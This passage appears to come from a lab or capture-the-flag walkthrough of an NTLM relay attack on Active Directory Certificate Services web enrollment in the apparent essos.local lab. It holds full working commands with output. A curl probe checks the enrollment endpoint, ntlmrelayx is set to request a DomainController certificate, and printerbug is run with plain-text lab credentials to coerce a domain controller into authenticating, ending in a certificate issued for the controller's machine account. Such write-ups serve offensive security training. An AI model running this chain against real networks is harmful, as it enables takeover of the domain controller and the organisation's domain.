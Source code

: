 Let's test the web enrollment endpoint first:

```bash
# Check if ADCS web enrollment is accessible
curl -I http://braavos.essos.local/certsrv/certfnsh.asp

HTTP/1.1 401 Unauthorized
Content-Length: 1293
Content-Type: text/html
Server: Microsoft-IIS/10.0
WWW-Authenticate: Negotiate
WWW-Authenticate: NTLM
Date: Thu, 03 Jan 2025 16:45:12 GMT
```

Perfect! It's requesting NTLM authentication. Now let's set up the relay attack:

```bash
# Set up NTLM relay to ADCS HTTP endpoint
python3 ntlmrelayx.py -t http://braavos.essos.local/certsrv/certfnsh.asp -smb2support --adcs-attack --adcs-template "DomainController"

Impacket v0.11.0 - Copyright 2023 Fortra
Note: Output may vary slightly between versions - banners truncated for brevity

[*] Protocol Client DCOM loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server
[*] Setting up WCF Server

[*] Servers started, waiting for connections

# In another terminal, trigger authentication from target DC
python3 printerbug.py essos.local/missandei:fr3edom@meereen.essos.local braavos.essos.local

[*] Impacket v0.11.0 - Copyright 2023 Fortra
[*] Attempting to trigger authentication via rprn RPC at meereen.essos.local
[*] Bind OK
[*] Got handle
DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Triggered RPC backconnect, this may or may not have worked

# Back in ntlmrelayx window:
[*] SMBD-Thread-4: Connection from MEEREEN/192.168.56.12 controlled, attacking target http://braavos.essos.local
HTTP        : success, Cert saved to /tmp/MEEREEN$cert.b64
[*] ADCS attack completed. Generated certificate for user MEEREEN$

# Certificate successfully obtained!
```
